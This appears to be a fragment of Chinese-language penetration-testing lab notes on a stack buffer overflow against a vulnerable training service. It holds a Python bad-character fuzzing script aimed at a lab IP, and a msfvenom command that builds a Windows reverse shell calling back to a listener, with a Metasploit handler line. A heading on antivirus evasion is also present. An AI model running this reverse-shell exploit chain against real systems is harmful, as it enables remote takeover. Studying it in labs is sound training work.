 ```python3
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
            "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
            "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
            "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
            "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
            "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
            "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
            "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
shellcode = 'A' * 2003 + 'B' * 4 + badchars
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    print(f"fuzzing {len(shellcode)}")
    connect = s.connect(('10.211.55.19', 9999))
    s.send(bytes('TRUN /.:/' + shellcode, encoding='utf8'))
except Exception:
    print('check debug')

finally:
    s.close()
```

![](https://tva1.sinaimg.cn/large/006tNbRwgy1gbay1k5dtwj31mr0u0ati.jpg)

### shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=10.211.55.26 lport=4444 EXITFUNC=thread -f c -a x86 --platform windows -b '\x00'


use exploit/multi/handler
```

![](https://tva1.sinaimg.cn/large/006tNbRwgy1gbayo9d79pj30vw0u0x0f.jpg)


# 免杀

- [virustotal](https://www.virustotal.com/gui/home/upload)


# sql
